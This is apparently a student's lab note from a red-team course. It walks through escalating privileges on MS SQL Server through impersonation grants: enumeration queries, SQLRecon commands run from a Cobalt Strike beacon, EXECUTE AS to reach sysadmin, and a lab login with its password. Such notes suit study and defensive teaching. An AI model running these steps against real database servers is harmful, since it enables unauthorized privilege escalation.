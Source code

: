 MS SQL impersonation, or context switching, is a means which allows the executing user to assume the permissions of another user without needing to know their password.  One handy use case for the feature is to allow administrators to impersonate a user for testing purposes, e.g. a user is having a problem and they want to eliminate permissions as an issue.

Impersonations must be explicitly granted through securable configurations.

- this `module` was completed by setting up a `proxychains 1080 socks5` on `WKSTN-2` and utilizing `proxychains mssqlclient.py` to login as `DEV\BFarmer` with password `Sup3rman`

![[Pasted image 20231212173135.png]]

In this example, `DEV\Domain Users` have been granted the ability to impersonate the `DEV\mssql_svc` account.  This is clearly a security issue because it gives all Domain Users sysadmin privileges on this instance.

We can discover accounts to impersonate manually using the following queries:
```sql
SQL> SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
     class   class_desc                                                        major_id      minor_id   grantee_principal_id   grantor_principal_id   type   permission_name                                                                                                                    state   state_desc

----------   ------------------------------------------------------------   -----------   -----------   --------------------   --------------------   ----   --------------------------------------------------------------------------------------------------------------------------------   -----   ------------------------------------------------------------

       101   SERVER_PRINCIPAL                                                       267             0                    268                    267   b'IM  '   IMPERSONATE                                                                                                                         b'G'   GRANT

SQL>
```
This shows that the `grantee_principal_id`, 268, is allowed to impersonate the `grantor_principal_id`, 267.  The IDs don't mean much, so we can look them up with:
```sql
SQL> SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
name                                                                                                                               principal_id   type_desc                                                      is_disabled

--------------------------------------------------------------------------------------------------------------------------------   ------------   ------------------------------------------------------------   -----------

sa                                                                                                                                            1   SQL_LOGIN                                                                1

public                                                                                                                                        2   SERVER_ROLE                                                              0

sysadmin                                                                                                                                      3   SERVER_ROLE
          0

securityadmin                                                                                                                                 4   SERVER_ROLE
          0

serveradmin                                                                                                                                   5   SERVER_ROLE
          0

setupadmin                                                                                                                                    6   SERVER_ROLE
          0

processadmin                                                                                                                                  7   SERVER_ROLE
          0

diskadmin                                                                                                                                     8   SERVER_ROLE
          0

dbcreator                                                                                                                                     9   SERVER_ROLE
          0

bulkadmin                                                                                                                                    10   SERVER_ROLE
          0

DEV\mssql_svc                                                                                                                               267   WINDOWS_LOGIN
          0

DEV\Domain Users                                                                                                                            268   WINDOWS_GROUP
```
Here, we see that 267 is DEV\mssql_svc and 268 is DEV\Domain Users.
- anyone in the `DEV\Domain Users` group is able to `impersonate` `DEV\mssql_svc`
You can also write your own SQL query that will join these two, or use SQLRecon's impersonate module.
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate

[*] Enumerating accounts that can be impersonated on sql-2.dev.cyberbotic.io,1433
name | 
-------
DEV\mssql_svc |
```
We can take advantage of this as bfarmer, who we know is not a sysadmin.
```powershell
SELECT SYSTEM_USER;
DEV\bfarmer

SELECT IS_SRVROLEMEMBER('sysadmin');
0
```
Use `EXECUTE AS` to execute a query in the context of the target.
```powershell
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```
SQLRecon modules can also be run in "impersonation mode" by prefixing the module name with an `i` and specifying the principal to impersonate.
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433 as 'DEV\mssql_svc'
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] [+] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```